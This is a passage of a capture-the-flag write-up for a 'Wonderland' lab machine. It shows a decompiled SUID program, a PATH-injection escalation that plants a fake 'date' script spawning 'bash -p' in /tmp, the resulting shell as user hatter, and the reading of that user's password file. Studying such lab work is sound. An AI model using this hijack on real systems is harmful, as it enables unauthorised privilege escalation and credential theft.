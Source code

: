 > Decompiled

```c
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

Obviously, the `date` binary did not specify full path compare to `echo`, let's do path injection


#### Path Injection with SUID binary

```bash
echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/date
chmod +x /tmp/date
export PATH=/tmp:$PATH
./teaParty
```

```bash
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```


#### Get user hatter's password

Got password in user's home directory

```bash
hatter@wonderland:/home/rabbit$ cd /home/hatter/
hatter@wonderland:/home/hatter$ ls -la
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```
